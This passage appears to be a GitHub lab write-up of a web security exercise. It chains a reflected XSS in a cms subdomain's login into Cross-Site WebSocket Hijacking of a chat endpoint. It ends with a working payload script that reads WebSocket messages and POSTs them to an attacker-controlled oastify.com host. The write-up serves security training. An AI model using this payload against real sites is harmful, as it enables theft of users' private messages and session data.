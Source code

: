 ```
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '\', '\r': '
', '\n': '
', '"': '"', '<': '<', '>': '>', "'": ''', '&': '&'};
                return lookup[c];
            });
        }
        return str;
    }
})();

```

**Discovering a Subdomain**

When retrieving the JavaScript file, the HTTP response includes an Access-Control-Allow-Origin header pointing to a subdomain (cms).

![image](https://github.com/user-attachments/assets/a8436f83-85c5-47c8-93ba-7b5ea02181dd)

Subdomain Vulnerability
The cms subdomain contains a login function that reflects the username in the response, making it vulnerable to Cross-Site Scripting (XSS). For example:

![image](https://github.com/user-attachments/assets/8d0edbf1-965c-425f-bfe9-3579c9ceea31)

**XSS Payload**: `<script>alert(1)</script>`

This payload triggers an alert, confirming the XSS vulnerability.

![image](https://github.com/user-attachments/assets/cf2af12c-8cec-472f-920e-842773c4a08d)

The login request is a POST but can be converted to a GET request for easier exploitation.

![image](https://github.com/user-attachments/assets/dc7ec53a-c07b-4016-91cb-df66ab1829c7)


**Exploiting XSS for CSWSH**

Since the cms subdomain is part of the same site, it bypasses SameSite cookie restrictions, enabling a Cross-Site WebSocket Hijacking (CSWSH) attack. The attack involves:

Crafting a malicious payload to establish a WebSocket connection to the /chat endpoint.
Sending intercepted WebSocket messages to an attacker-controlled server.


**CSWSH Payload**

```

<script>
    var ws = new WebSocket('wss://0a2300d903aa833880e1999c00ff0015.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://110tll1sbyflso7uajbly9oyppvgj67v.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

```
